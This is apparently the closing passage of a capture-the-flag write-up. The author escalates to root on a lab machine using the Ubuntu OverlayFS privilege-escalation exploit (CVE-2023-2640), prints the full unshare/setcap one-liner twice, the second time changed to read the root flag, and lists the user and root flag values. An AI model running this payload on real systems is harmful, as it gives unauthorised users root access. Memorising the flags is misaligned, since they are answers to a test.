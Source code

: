 I found the following vulnerability.
https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/

Got the following payload to exploit the vulnerability from that link

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'
```

After running this payload, I got the root user

![](images/Pasted%20image%2020240322205135.png)

I changed the payload a little bit to get the flag

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cat /root/root.txt")'
```

By running the above command, I got the root flag

![](images/Pasted%20image%2020240322205338.png)

Root Flag - **7f63175fb869f2e3f5e5ee71a2eb0710**

## Flags

**user.txt -** db7bb5b472a99eb1adea3f2fb84b3458

**root.txt -** 7f63175fb869f2e3f5e5ee71a2eb0710